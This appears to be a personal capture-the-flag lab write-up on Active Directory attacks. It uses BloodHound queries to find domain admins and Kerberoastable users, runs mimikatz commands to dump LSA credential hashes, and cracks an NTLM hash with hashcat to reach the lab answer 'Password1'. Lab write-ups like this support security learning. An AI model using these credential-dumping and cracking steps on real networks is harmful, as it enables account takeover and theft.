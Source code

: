 The resulting graph from the .json loot. This command in particular is 'find all domain admins'.

>What service is also a domain admin

SQLSERVICE
Can be seen by observing the graph. Not gonna be able to do much with this due to how buggy Bloodhound is on my VM.

>What two users are Kerberoastable? 

Can be discovered by selecting "Shortest Paths from Kerberoastable Users"

![kerb](assets/img/kerberoastable-user.png)

## Dumping hashes with mimikatz (electric boogaloo)

In this section, dumping hashes is gonna be done in an active directory which is semi-relateed to Kerberos I suppose

The target machine has mimikatz installed so proceesding from there.

1. Always check the privilege: 

mimikatz # privilege::debug 
Privilege '20' OK 

>lsadump::lsa /patch

Command to dump the hashes. Remember, LSA is the LSASS memory that contains all that juicy credentials.

>What is the Machine1 Password?

The hash obtained from the dump is as follow: 64f12cddaa88057e06a81b54e73b949b

```
RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b
```

Run this command: hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt 
1000 is the hash mod for NTLM which is what the hash found is.

Answer: Password1

